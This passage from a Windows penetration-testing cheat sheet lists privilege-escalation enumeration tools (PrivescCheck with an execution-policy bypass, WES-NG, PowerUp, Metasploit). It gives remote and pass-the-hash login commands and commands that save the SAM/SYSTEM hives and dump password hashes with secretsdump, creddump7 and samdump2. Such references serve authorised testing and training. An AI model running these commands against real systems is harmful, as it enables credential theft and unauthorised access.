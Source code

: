     ```powershell
        Set-ExecutionPolicy Bypass -Scope process -Force
        . .\PrivescCheck.ps1
        Invoke-PrivescCheck
    ```
3. [WES-NG (Windows Exploit Suggester - Next Generation)](https://github.com/bitsadmin/wesng)

    Before use run `wes.py --update` to update database and run `systeminfo > systeminfo.txt` on target system.
    Then WES-NG can be used with `wes.py systeminfo.txt`.

4. [PowerUp.ps1](https://gist.github.com/rvrsh3ll/005cd3ab80033312ffdca862d0b337fd)
    
    ```powershell
    . .\PowerUp.ps1
    Invoke-AllChecks
    ```

5. Metasploit
    
    Use the `multi/recon/local_exploit_suggester` module.

### Windows Login Options:

```
normal login:
    xfreerdp /u:<username> /p:<password> /v:<windows_ip> +clipboard
    rdesktop <IP>
    winexe -U '<username>%<password>' //<IP> cmd.exe

pass-the-hash login:
    pth-winexe -U '<username>%<LM_hash:NTLM_hash>' //<IP> cmd.exe    
```

### Windows Hash  & Cracking Options:
```
Copy of SAM/SYSTEM (backup if available also nice):
reg.exe save hklm\sam SAM
reg.exe save hklm\system SYSTEM

Dumping:
    1. impacket (best) 
    python /usr/share/doc/python3-impacket/examples/secretsdump.py -system SYSTEM -sam SAM LOCAL

    2. creddump.py
    git clone https://github.com/Tib3rius/creddump7
    pip3 install pycrypto
    python3 creddump7/pwdump.py SYSTEM SAM

    3. John  
    samdump2 SYSTEM SAM
```


### manual Enumeration:
